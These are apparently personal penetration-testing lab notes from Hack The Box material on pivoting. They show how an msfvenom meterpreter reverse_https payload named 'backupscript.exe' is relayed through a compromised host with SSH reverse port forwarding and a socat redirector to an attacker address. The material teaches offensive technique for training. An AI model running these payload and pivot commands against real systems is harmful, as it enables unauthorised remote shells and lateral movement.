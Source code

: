 # Reverse Port Forwarding with SSH


With reverse port forwarding, if you establish a reverse shell from Victim B to Victim A and set up port forwarding on Victim A to your attack machine, you'll be able to access the shell from your machine. This way, Victim A acts as an intermediary to route the connection from Victim B to your attack machine.\
![[Pasted image 20240825035409.png]]


#### Creating a Windows Payload with msfvenom


1 . Attacker Machine Create reverse shell  and start a multi handler on port 8080

```shell
c4ndy@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

1. transfer the reverse shell to the victim server  ( ubuntu )
2. Transfer the file to the Victim Server ( windows A ) or make a exploit 
3. Make the SSH Reverse Port Forwarding

```shell
c4ndy@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

and execute the reverse shell : ) 


---

Meterpreter Port Forwarding 

https://pentest.blog/explore-hidden-networks-with-double-pivoting/
https://www.offsec.com/metasploit-unleashed/portfwd/


---

# Socat Redirection with a Reverse Shell


[Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port. We can start Metasploit's listener using the same command mentioned in the last section on our attack host, and we can start `socat` on the Ubuntu server.

#### Starting Socat Listener ( from the compromised server)

```shell
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

Socat will listen on localhost on port `8080` and forward all the traffic to port `80` on our attack host (10.10.14.18). Once our redirector is configured, we can create a payload that will connect back to our redirector, which is running on our Ubuntu server. We will also start a listener on our attack host because as soon as socat receives a connection from a target, it will redirect all the traffic to our attack host's listener, where we would be getting a shell.
